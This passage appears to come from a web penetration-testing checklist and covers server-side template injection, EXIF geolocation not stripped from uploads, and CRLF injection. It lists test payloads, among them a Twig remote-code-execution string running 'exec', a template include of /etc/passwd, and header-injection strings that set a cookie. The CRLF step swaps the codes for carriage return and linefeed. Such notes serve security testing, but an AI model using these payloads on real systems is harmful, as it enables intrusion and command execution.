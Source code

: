 **Manual Checking:**

1. Example Payloads:
    - `curl -g '<http://www.target.com/page?name=John'`>
    - `curl -g '<http://www.target.com/page?name={{7*7}>}'`

**Automation Tool:**

1. `https://github.com/epinna/tplmap`

**Basic Payloads:**

- `{{7*7}}`
- `{{7*'7'}}`
- `{% extends "/etc/passwd" %}`

**RCE Payload (Twig):**

- `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`**Tool Used:** Manual Checking, curl, tplmap

### 39. Exif GeoLocation Data Not Stripped

**Approach:**

1. Download an image from `https://github.com/ianare/exif-samples`.
2. Go to JPG properties and check GPS data.
3. Upload the image to the target website.
4. Copy the image URL and paste it into an EXIF data tool (e.g., `http://metapicz.com/`).**Tool Used:** [Exif.regex.info/exif.cgi](http://exif.regex.info/exif.cgi)

### 40. CRLF Injection

**Approach:**

1. Capture a request using Burp Suite.
2. Insert arbitrary data in the input field (e.g., `aaaaaaaaaaaaa`).
3. If the input is reflected in the response header, it may be vulnerable.
4. Test Carriage Return (`%0A`) and Linefeed (`%0D`) payloads.
5. Example Payload:
    - `%0a%0dxxxxxxxxxxxxx`
    - `return_url=aaaa%0a%0dset-cookie:mycookie`****